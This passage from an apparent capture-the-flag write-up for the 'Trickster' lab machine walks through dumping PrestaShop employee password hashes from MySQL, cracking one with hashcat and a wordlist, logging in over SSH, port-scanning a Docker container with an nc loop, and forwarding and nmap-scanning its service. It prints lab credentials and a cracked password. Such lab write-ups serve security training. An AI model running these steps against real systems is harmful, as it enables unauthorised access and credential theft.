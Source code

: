 Accessed database and retrieved user hashes:

```sql
mysql -u ps_user -p'prest@shop_o' -h 127.0.0.1 prestashop

use prestashop;
SELECT id_employee, email, passwd FROM ps_employee;
id_employee	email	passwd
1	admin@trickster.htb	$2y$10$P8wO3jruKKpvKRgWP6o7o.rojbDoABG9StPUt0dR7LIeK26RdlB/C
2	james@trickster.htb	$2a$04$rgBYAsSHUVK3RZKfwbYY9OPJyBbt/OzGw9UHi4UnlK6yG5LyunCmm
```

Cracked James' hash using hashcat:
```bash
hashcat -m 3200 hashes.txt ./rockyou.txt

$2a$04$rgBYAsSHUVK3RZKfwbYY9OPJyBbt/OzGw9UHi4UnlK6yG5LyunCmm:alwaysandforever
```

`james:alwaysandforever`, we're able to use these to login as the james user via ssh:
```shell
❯ ssh james@trickster.htb

james@trickster.htb's password:
Last login: Thu Sep 26 11:13:01 2024 from 10.10.14.41
james@trickster:~$ cat user.txt
d3009be0b628228c45ec--snip--
```

## Docker Container Exploitation

We find a docker container's IP:
```shell
james@trickster:~$ arp -a
? (172.17.0.2) at 02:42:ac:11:00:02 [ether] on docker0
? (10.129.0.1) at 00:50:56:b9:2b:b5 [ether] on eth0
```

Used nc to find open ports on that IP from the target machine and find port 5000 is open:
```shell
james@trickster:~$ IFS=','
james@trickster:~$ for ports in $(cat top-1000.txt); do nc -zv 172.17.0.2 $ports 2>&1 | grep "succeeded"; done
Connection to 172.17.0.2 5000 port [tcp/*] succeeded!

james@trickster:~$ unset IFS
```

Since port 5000 is only listening locally, we can forward it to our attacker's machine:
```shell
❯ ssh -L 5000:172.17.0.2:5000 james@trickster.htb
```

We can run nmap on the port now that it's forwarded locally:
```bash
❯ nmap -sC -sV -T5 -A -p5000 -v localhost

PORT     STATE SERVICE VERSION
5000/tcp open  http    Python http.server 3.5 - 3.10
| http-methods:
|_  Supported Methods: OPTIONS HEAD GET
| http-title: Change Detection
|_Requested resource was /login?next=/
```
